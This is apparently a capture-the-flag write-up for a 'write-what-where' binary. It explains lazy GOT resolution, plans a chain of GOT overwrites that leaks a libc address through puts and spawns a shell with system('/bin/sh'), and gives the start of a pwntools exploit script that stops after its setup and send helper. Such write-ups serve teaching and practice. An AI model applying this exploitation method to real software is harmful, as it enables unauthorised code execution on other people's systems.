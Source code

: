 Let's take `puts` for example. Before the function is called, the GOT entry is 0x401036.
After the function is called, the entry is 0x7ffff7e655f0. Why is that? Because libc is dynamically linked
and the linker resolves functions' addresses at runtime and caches them in the GOT. 
When we call a libc function, we call the address in the PLT, that checks whether the real address was resolved.
If it was, it calls the address, if not, it calls the linker. Before the function is called, the entry fits inside 4 bytes. After the
function is resolved, it doesn't fit anymore. The point is we cannot overwrite a libc function (after it is resolved) in one iteration
(if the function is called again), because it will result in a half-overwritten invalid address. But we can overwrite
it in two iterations if the function is not called in between. A good candidate is `init`: it doesn't do anything crucial 
to the workflow. It contains calls to `setvbuf`. The first argument is `stdin`/`stdout` which is address that we can control.
It makes the perfect match for calling `system("/bin/sh")`, as we can control both the function address and the first argument.

Also, we need to leak an address in the libc, because ASLR will mount libc at a random base address. 
We can do this by calling `puts@plt(puts@got)`.


Idea of the exploit:
- overwrite `exit` to an address in `main` after the call to `init` (so `init` doesn't get called in between)
- overwrite `setvbuf` to `puts@plt`
- overwrite `stdin` to `puts@got`
- overwrite `exit` to `main` so `init` gets called to leak the address
- get the leaked address and calculate libc base
- overwrite `exit` to not call `init` 
- calculate the addresses of `system` and `/bin/sh`
- overwrite `setvbuf` to `system`
- overwrite `stdin` to `"/bin/sh"`
- overwrite `exit` to `main` 
- profit

```python
from pwn import *

context.log_level = 'debug'

def to_str_9(n):
    s = str(n)
    return str.encode(s).ljust(9, b"\x00")

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
binary = ELF("./write-what-where")

main = binary.sym['main']
after_init = main + 33
before_init = main + 28
exit_got = binary.got['exit']
stdin_got = binary.got['stdin']
stdout_got = binary.got['stdout']
puts_plt = binary.plt['puts']
puts_got = binary.got['puts']
setvbuf_got = binary.got['setvbuf']

def send(r, a, b):
    r.recvline()
    r.recvline()
    r.send(p32(a))
    r.recvline()
    r.send(to_str_9(b))
```